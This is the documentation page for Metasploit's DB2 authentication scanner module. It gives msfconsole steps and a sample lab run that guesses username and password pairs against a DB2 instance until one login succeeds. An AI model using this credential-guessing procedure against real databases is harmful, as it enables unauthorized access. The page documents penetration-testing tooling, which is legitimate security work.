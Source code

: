 ## Vulnerable Application

This module attempts to authenticate against a DB2 instance using username and password combinations indicated by the `USER_FILE`, `PASS_FILE`, and `USERPASS_FILE` options.

More information can be found on the [Rapid7 Vulnerability & Exploit Database page](https://www.rapid7.com/db/modules/auxiliary/scanner/db2/db2_auth)

## Verification Steps

  1. Start msfconsole
  2. Do: `use auxiliary/scanner/db2/db2_auth`
  3. Do: `set RHOSTS [ip]`
  4. Do: `run`

## Scenarios

###  A run on Kali Linux 2019.3 and DB2 11.5.0.0a

    ```
    msf > use auxiliary/scanner/db2/db2_auth
    msf auxiliary/scanner/db2/db2_auth) > show options
    msf auxiliary/scanner/db2/db2_auth) > set USERNAME db2inst1
    msf auxiliary/scanner/db2/db2_auth) > set PASSWORD db2pass
    msf auxiliary(scanner/db2/db2_auth) > set DATABASE testdb
    msf auxiliary/scanner/db2/db2_auth) > set RHOST 172.17.0.2
    msf auxiliary/scanner/db2/db2_auth) > run
      [-] 172.17.0.2:50000      - 172.17.0.2:50000 - LOGIN FAILED: db2inst1:db2inst1@testdb (Incorrect: )
      [-] 172.17.0.2:50000      - 172.17.0.2:50000 - LOGIN FAILED: db2inst1:dasusr1@testdb (Incorrect: )
      [-] 172.17.0.2:50000      - 172.17.0.2:50000 - LOGIN FAILED: db2inst1:db2fenc1@testdb (Incorrect: )
      [*] 172.17.0.2:50000      - Login Successful: db2inst1:db2pass
      [*] 172.17.0.2:50000      - Scanned 1 of 1 hosts (100% complete)
      [*] Auxiliary module execution completed
    ```
